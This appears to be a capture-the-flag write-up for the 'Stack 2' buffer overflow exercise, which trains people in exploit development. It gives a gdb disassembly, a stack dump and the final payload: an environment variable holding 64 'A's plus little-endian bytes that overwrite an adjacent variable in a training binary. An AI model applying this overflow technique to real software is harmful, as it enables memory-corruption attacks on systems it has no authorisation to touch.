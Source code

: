 # Stack 2
## Overview
    The variable gets its value from the environment variable GREENIE instead
    of a command line parameter and buffer[64] copy the value of variable.
    The esp(current stack pointer) grows upward when allocating memory
    and the higher the esp goes, it points to smaller address number.
    Thus, we should first modify the environment variable to a very large 
    value with 0x0d0a0d0a as postfix to overwrite buffer[64] and modified.

## Process
    $ export GREENIE=`python -c "print 'A'*64"`
    $ env | grep GREENIE
    GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    $ gdb -q ./Stack2
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048494 <+0>:     push   %ebp
            0x08048495 <+1>:     mov    %esp,%ebp
            0x08048497 <+3>:     and    $0xfffffff0,%esp
            0x0804849a <+6>:     sub    $0x60,%esp
            0x0804849d <+9>:     movl   $0x80485e0,(%esp)
            0x080484a4 <+16>:    call   0x804837c <getenv@plt>
            0x080484a9 <+21>:    mov    %eax,0x5c(%esp)
            0x080484ad <+25>:    cmpl   $0x0,0x5c(%esp)
            0x080484b2 <+30>:    jne    0x80484c8 <main+52>
            0x080484b4 <+32>:    movl   $0x80485e8,0x4(%esp)
            0x080484bc <+40>:    movl   $0x1,(%esp)
            0x080484c3 <+47>:    call   0x80483bc <errx@plt>
            0x080484c8 <+52>:    movl   $0x0,0x58(%esp)
            0x080484d0 <+60>:    mov    0x5c(%esp),%eax
            0x080484d4 <+64>:    mov    %eax,0x4(%esp)
            0x080484d8 <+68>:    lea    0x18(%esp),%eax
            0x080484dc <+72>:    mov    %eax,(%esp)
            0x080484df <+75>:    call   0x804839c <strcpy@plt>
            0x080484e4 <+80>:    mov    0x58(%esp),%eax
            0x080484e8 <+84>:    cmp    $0xd0a0d0a,%eax
            0x080484ed <+89>:    jne    0x80484fd <main+105>
            0x080484ef <+91>:    movl   $0x8048618,(%esp)
            0x080484f6 <+98>:    call   0x80483cc <puts@plt>
            0x080484fb <+103>:   jmp    0x8048512 <main+126>
            0x080484fd <+105>:   mov    0x58(%esp),%edx
            0x08048501 <+109>:   mov    $0x8048641,%eax
            0x08048506 <+114>:   mov    %edx,0x4(%esp)
            0x0804850a <+118>:   mov    %eax,(%esp)
            0x0804850d <+121>:   call   0x80483ac <printf@plt>
            0x08048512 <+126>:   leave
            0x08048513 <+127>:  ret
        End of assembler dump.
    (gdb) b *main+84
    Breakpoint 1 at 0x80484e8: file stack2/stack2.c, line 22.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd548  0xffffdea9  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0x41414141  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd580: 0x41414141  0x41414141  0x00000000  0xffffdea9
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0xee5ca7c2  0xd23c09d2  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x080483e0
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x080483e0  0x00000000  0x08048401
        0xffffd610: 0x08048494  0x00000001  0xffffd634  0x08048530
    
## Method
    Use 64 bytes to overwrite buffer[64] and little endian of 0x0d0a0d0a 
    (\x0a\x0d\x0a\x0d) to overwrite modified.
    So we need to set environment variable to 64 bytes A + \x0a\x0d\x0a\x0d.
## Answer
    $ export GREENIE=`python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'"`
    $ env | grep GREENIE
    GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    $ ./stack2
    you have correctly modified the variable

    
